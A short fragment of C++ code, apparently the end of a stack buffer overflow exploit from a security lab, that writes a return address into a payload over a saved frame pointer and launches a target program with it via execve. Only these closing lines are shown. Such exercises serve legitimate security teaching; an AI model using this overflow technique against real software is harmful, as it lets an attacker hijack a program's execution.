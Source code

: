   ```c++
  
      // q.r = ebp + 4
      memcpy(payload + q_offset + 4, &return_addr, 4);
      char *args[] = {TARGET, payload, NULL};
      char *env[] = {NULL};
  
      execve(TARGET, args, env);
      fprintf(stderr, "execve failed.\n");
  
      return 0;
  }
  ```

  



